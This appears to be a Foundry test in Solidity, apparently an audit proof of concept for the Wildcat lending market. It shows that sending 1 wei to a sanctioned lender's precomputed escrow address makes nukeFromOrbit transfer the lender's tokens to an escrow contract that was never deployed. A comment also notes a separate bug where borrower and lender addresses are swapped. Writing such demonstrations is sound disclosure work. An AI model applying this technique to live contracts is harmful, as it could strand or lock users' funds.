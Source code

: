 ```solidity
        arr[0] = DUEET;
        vm.prank(AIKEN);
        controller.authorizeLenders(arr);

        // Dueet becomes a lender in the market
        vm.startPrank(DUEET);
        asset.approve(address(market), 1000e18);
        market.depositUpTo(1000e18);
        vm.stopPrank();

        // Dueet becomes sanctioned
        vm.mockCall(
            MOCK_CHAINALYSIS_ADDRESS,
            abi.encodeCall(IChainalysisSanctionsList.isSanctioned, (DUEET)),
            abi.encode(true)
        );

        // Attacker transfers 1 wei to Dueet's escrow address
        // Note: Borrower and lender addresses are swapped due to a separate bug
        address escrowAddress = sentinel.getEscrowAddress(DUEET, AIKEN, address(market));
        payable(escrowAddress).transfer(1);

        // Codehash of market address is now keccak256("")
        assertEq(escrowAddress.codehash, keccak256(""));

        // Dueet gets blocked in market
        market.nukeFromOrbit(DUEET);

        // Dueet's MKT tokens are transferred to his escrow address
        assertEq(market.balanceOf(escrowAddress), 1000e18);

        // However, the escrow contract was not deployed
        assertEq(escrowAddress.code.length, 0); 
    }

    function _deployControllerAndMarket(
        address user, 
        address _asset,
        string memory namePrefix, 
        string memory symbolPrefix
    ) internal returns (WildcatMarketController, WildcatMarket){
        vm.prank(user);
        (address controller, address market) = controllerFactory.deployControllerAndMarket(
            namePrefix,
            symbolPrefix,
            _asset,
            type(uint128).max,
            MaximumAnnualInterestBips,
            MaximumDelinquencyFeeBips,
            MaximumWithdrawalBatchDuration,
            MaximumReserveRatioBips,
            MaximumDelinquencyGracePeriod
        );
        return (WildcatMarketController(controller), WildcatMarket(market));
    }
}
```
